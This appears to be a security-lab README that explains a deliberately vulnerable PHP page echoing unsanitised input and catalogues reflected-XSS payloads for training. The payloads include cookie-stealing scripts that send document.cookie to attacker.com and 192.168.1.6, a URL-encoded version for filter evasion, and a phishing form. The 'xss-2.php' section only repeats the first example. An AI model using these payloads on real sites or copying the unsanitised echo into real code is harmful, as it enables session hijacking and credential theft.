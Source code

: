 

# XSS-Vulnerable-Code-Analysis

## Cross-Site Scripting(XSS) Code Analysis and XSS Issue

---

### **Vulnerable Example: xss-1.php**

- vim xss-1.php

      <?php
       session_start();
         setcookie('admin', 'admin', time() + (60 * 60 * 24 * 7));
         $_SESSION['admin'] = 'admin';
          ?>
                                        
         <!DOCTYPE html>
         <html lang="en">
         <head>
         <meta charset="utf-8">
         <meta name="viewport" content="width=device-width, initial-scale=1" />
        <title>XSS Vulnerability Lab</title>
        </head>
        <body>
                                        
         <h1>Welcome To Armour Infosec</h1>

            <?php
          // Vulnerable: directly echoing user input without sanitization, intentional for lab purposes
          if (isset($_REQUEST['user'])) {
             echo $_REQUEST['user'] . "!!";
          }
          ?>
                                        
         <p>Try injecting JavaScript or HTML code into the 'user' parameter in the URL to test reflected XSS:</p>
          <pre>?user=&lt;script&gt;alert('XSS')&lt;/script&gt;</pre>
                                        
          </body>
         </html>

  The vulnerable code is using $_REQUEST, which combines GET, POST, and COOKIE variables, expanding the attack surface.

### Risks for Users

- Script Execution: Any visitor who clicks a crafted link or submits a manipulated form could have arbitrary JavaScript executed in their browser in the context of the vulnerable site.

- Cookie Theft: Attackers could use scripts to steal session cookies, hijack logins, or impersonate users.

- Session Security: The presence of admin cookies and session variables further increases attack value—they could be targeted for theft or manipulation.

### Common XSS Exploits (for Lab Purposes)

- Simple script execution:

      <script>alert('XSS')</script>

- Event handler injection:

      <img src=x onerror=alert('XSS')>

- Malicious payloads targeting cookies:

      <script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>

- HTML injection for phishing:

      <form action="https://malicious-site.com">Enter Password: <input type=password></form>

### Why Leave It Vulnerable?

For XSS labs and training, seeing raw, unsanitized output is essential for demonstrating the impact and exploitability of these attacks. It provides hands-on experience for attacking and later learning to defend real web applications.

Note:

Never deploy this or similar code in any environment that is accessible outside a controlled, ethical testing lab.

## Common XSS Exploits (for Lab Purposes)

### 1. Basic Alert Payloads

          <script>alert(123);</script>
          <script>alert("Armour");</script>
          <script>alert(document.domain);</script>
          <script>alert(document.cookie);</script>

- These are simple JavaScript alert popups enclosed in <script> tags.

- They are commonly used to test if XSS vulnerabilities exist by triggering a popup box.

Details:


- alert(123); — Displays a numeric popup alert.

- alert("Armour"); — Displays a popup with the text "Armour".

- alert(document.domain); — Shows the domain of the current document (used to confirm the site context).

- alert(document.cookie); — Displays the user's cookies stored for the site, indicating successful access to sensitive info.

### 2. Cookie Theft via Image Request

    <script>var i=new Image; i.src="http://192.168.1.6/?"+document.cookie;</script>


### 3. URL-Encoded Versions of the Above Payloads

%3Cscript%3Evar%20i%3Dnew%20Image%3Bi.src%3D%22http%3A%2F%2F192.168.1.6%2F%3F%22%2Bdocument.cookie%3B%3C%2Fscript%3E


- These are the URL-encoded versions of the image-based cookie theft payload.

- URL encoding is used to safely transmit special characters in URLs without breaking web requests or filters.

- When decoded, they become the same JavaScript payload as before.

- Attackers use URL-encoding to bypass input filters or WAFs that don't decode inputs before inspection.


## Summary

| Payload Type                                                | Purpose                                 | Explanation                                            |
|-------------------------------------------------------------|-----------------------------------------|--------------------------------------------------------|
| `<script>alert(...);</script>`                              | Proof of XSS vulnerability              | Shows popup alert to confirm vulnerability             |
| `<script>alert(document.cookie);</script>`                  | Test access to victim’s cookies         | Indicates potential for cookie theft                   |
| `<script>var i=new Image; i.src="..."+document.cookie;</script>` | Steal cookies via HTTP request          | Sends victim’s cookie to attacker's server             |
| `%3Cscript%3E...%3C%2Fscript%3E`                            | Encoded payload for bypassing input restrictions | Encodes special characters for evading filters |

---

### Importance for Security Testing and Labs

- These payloads are typical first steps in security assessments and penetration testing to confirm an XSS flaw.
- The cookie theft payload is a real-world attack vector that hackers use to hijack sessions.
- URL-encoded variants highlight the importance of comprehensive input decoding and normalization before filtering.

> **Always use such payloads responsibly within authorized testing environments or labs, never on unauthorized systems.**

---

### Why Leave It Vulnerable?

- For XSS labs and training, seeing raw, unsanitized output is essential for demonstrating the impact and exploitability of these attacks.
- It provides hands-on experience for attacking and later learning to defend real web applications.

> **Note:** Never deploy this or similar code in any environment that is accessible outside a controlled, ethical testing lab.

---



## **Vulnerable Example:** `xss-2.php`

      
      XSS-Vulnerable-Code-Analysis
      
      Cross-Site Scripting(XSS) Code Analysis and XSS Issue
      
      Vulnerable Example: xss-1.php
      
      vim xss-1.php
      
      <?php
      session_start();
      setcookie('admin', 'admin', time() + (60 * 60 * 24 * 7));
      $_SESSION['admin'] = 'admin';
      ?>
      <!DOCTYPE html>
      <html lang="en">
      <head>
      <meta charset="utf-8" />
      <meta name="viewport" content="width=device-width, initial-scale=1" />
      <title>XSS Vulnerability Lab</title>
      </head>
      <body>
      <h1>Welcome To Armour Infosec</h1>
      <?php
      // Vulnerable: directly echoing user input without sanitization, intentional for lab purposes
      if (isset($_REQUEST['user']))
          echo $_REQUEST['user'] . "!";
      ?>
      <p>Try injecting JavaScript or HTML code into the 'user' parameter in the URL to test reflected XSS:</p>
      <pre>?user=&lt;script&gt;alert('XSS')&lt;/script&gt;</pre>
      </body>
      </html>
